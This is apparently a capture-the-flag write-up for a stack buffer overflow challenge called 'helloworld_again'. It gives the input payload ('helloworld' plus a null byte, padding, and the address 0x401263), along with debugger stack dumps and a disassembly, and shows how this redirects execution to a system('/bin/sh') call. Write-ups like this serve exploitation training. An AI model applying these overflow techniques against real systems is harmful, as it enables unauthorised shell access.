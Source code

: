 ## Some Notes
1. The function helloworld is stored at 0x40125b.
2. rbp - 0x20 (32) is the address of the char s[32] and it's the argument passed to __isoc99_scanf().
3. If the return value of strlen(s) is larger than 32, then the process will exit with 0.
4. If the return value of strlen(s) is below or equal to 32, then if return value of strcmp(s) isn't equal to "helloworld", then the process will exit with 0.
5. The solution of 3. & 4. is to input "helloworld\0" + (40 - 11) * 'a' + target address (0x401263).

### Some problems encountered
```
0x007ffeb307b2c0│+0x0000: "helloworld"   ← $rax, $rsp, $rdi
0x007ffeb307b2c8│+0x0008: 0x616161616100646c ("ld"?)
0x007ffeb307b2d0│+0x0010: 0x6161616161616161
0x007ffeb307b2d8│+0x0018: 0x6161616161616161
0x007ffeb307b2e0│+0x0020: 0x6161616161616161     ← $rbp
0x007ffeb307b2e8│+0x0028: 0x0000000040125b  →  <helloworld+0> endbr64 
0x007ffeb307b2f0│+0x0030: 0x007f07faf25600  →  0x007ffeb307b3d8  →  0x007ffeb307c3fa  →  "./helloworld_again"
0x007ffeb307b2f8│+0x0038: 0x007ffeb307b3d8  →  0x007ffeb307c3fa  →  "./helloworld_again"
```
Successfully store the address of helloworld in the return address ($rbp + 8)  
Therefore, /bin/sh is assumed to be executed.  
However, it will cause SIGSEGV.
```
[#0] Id 1, Name: "helloworld_agai", stopped 0x7f05d1e3ee3c in do_system (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f05d1e3ee3c → do_system(line=0x402008 "/bin/sh")
[#1] 0x40126f → helloworld()
[#2] 0x7f05d2024600 →  <_dl_argv+0> call 0x7f05d01d8c1b
[#3] 0x7ffe1b4616e8 → cli
```
***Solution: overflow the return address with 0x401263 instead of 0x40125b***  
Because the overflowed rbp may point to unavailable address or address in kernel address space, jump to 0x401263 directly is a better way to execute the shell.  
```
000000000040125b <helloworld>:
  40125b:	f3 0f 1e fa          	endbr64 
  40125f:	55                   	push   rbp
  401260:	48 89 e5             	mov    rbp,rsp
  401263:	48 8d 3d 9e 0d 00 00 	lea    rdi,[rip+0xd9e]        # 402008 <_IO_stdin_used+0x8>
  40126a:	e8 51 fe ff ff       	call   4010c0 <system@plt>
  40126f:	90                   	nop
  401270:	5d                   	pop    rbp
  401271:	c3                   	ret
```

**Solved**
